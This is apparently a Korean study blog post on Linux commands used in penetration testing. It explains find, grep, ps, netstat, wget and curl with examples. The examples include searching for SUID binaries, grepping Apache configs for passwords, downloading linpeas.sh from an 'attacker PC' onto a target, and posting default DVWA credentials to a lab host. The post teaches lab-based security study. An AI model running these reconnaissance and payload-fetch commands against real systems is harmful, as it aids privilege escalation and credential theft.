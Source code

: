 ```yaml
---
layout: post
title: "보안을 위한 리눅스 명령어 공부"
date: 2025-09-14 17:00:00 +0900
categories: Study 시스템 해킹
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 가장 기본적이고 강력한 도구이다. 시스템 내부 정보를 수집하고 실행 중인 서비스를 확인하며 공격에 필요한 스크립트를 준비하는 모든 작업은 터미널에서 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **find**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 필수적이다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **grep**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **ps**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 때 사용된다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬 등)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **netstat**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **wget**: 원격 서버의 파일을 다운로드하여 저장한다. 주로 공격자 PC의 웹 서버에서 `linpeas.sh`와 같은 진단 스크립트를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC(192.9.200.12)에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://192.9.200.12:8000/linpeas.sh
    ```
*   **curl**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` 등 HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://192.9.200.11/login.php
    ```

<hr class="short-rule">